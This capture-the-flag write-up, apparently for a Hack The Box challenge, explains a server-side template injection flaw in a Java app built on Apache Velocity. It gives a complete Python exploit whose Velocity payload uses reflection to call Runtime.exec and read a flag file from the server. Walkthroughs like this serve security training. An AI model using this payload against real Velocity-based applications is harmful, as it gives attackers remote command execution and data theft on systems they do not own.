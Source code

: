 ## **Description**
You and your faction find yourselves cornered in a refuge corridor inside a maze while being chased by a KORP mutant exterminator. While planning your next move you come across a translator device left by previous Fray competitors, it is used for translating english to voxalith, an ancient language spoken by the civilization that originally built the maze. It is known that voxalith was also spoken by the guardians of the maze that were once benign but then were turned against humans by a corrupting agent KORP devised. You need to reverse engineer the device in order to make contact with the mutant and claim your last chance to make it out alive.
<br></br>

In src/java from Main.java we can see that it uses the velocity Template which is vulnerable to ssti.

```java
org.apache.velocity.Template t = new org.apache.velocity.Template();
```
Reference: 
`https://iwconnect.com/apache-velocity-server-side-template-injection/`
<br></br>
Exploit :
```py
from requests import *
import re
url="http://94.237.49.166:42561/"
injection='''
#set($s="")
#set($stringClass=$s.getClass())
#set($stringBuilderClass=$stringClass.forName("java.lang.StringBuilder"))
#set($inputStreamClass=$stringClass.forName("java.io.InputStream"))
#set($readerClass=$stringClass.forName("java.io.Reader"))
#set($inputStreamReaderClass=$stringClass.forName("java.io.InputStreamReader"))
#set($bufferedReaderClass=$stringClass.forName("java.io.BufferedReader"))
#set($collectorsClass=$stringClass.forName("java.util.stream.Collectors"))
#set($systemClass=$stringClass.forName("java.lang.System"))
#set($stringBuilderConstructor=$stringBuilderClass.getConstructor())
#set($inputStreamReaderConstructor=$inputStreamReaderClass.getConstructor($inputStreamClass))
#set($bufferedReaderConstructor=$bufferedReaderClass.getConstructor($readerClass))

#set($runtime=$stringClass.forName("java.lang.Runtime").getRuntime())
#set($process=$runtime.exec("cat ../flag1cb3464ee1.txt"))
#set($null=$process.waitFor() )

#set($inputStream=$process.getInputStream())
#set($inputStreamReader=$inputStreamReaderConstructor.newInstance($inputStream))
#set($bufferedReader=$bufferedReaderConstructor.newInstance($inputStreamReader))
#set($stringBuilder=$stringBuilderConstructor.newInstance())

#set($output=$bufferedReader.lines().collect($collectorsClass.joining($systemClass.lineSeparator())))

$output
'''
data={"text":injection}
pattern = r'HTB\{.*\}'
r=post(url,data=data)
flag = re.findall(pattern, r.text)
print(flag)
```
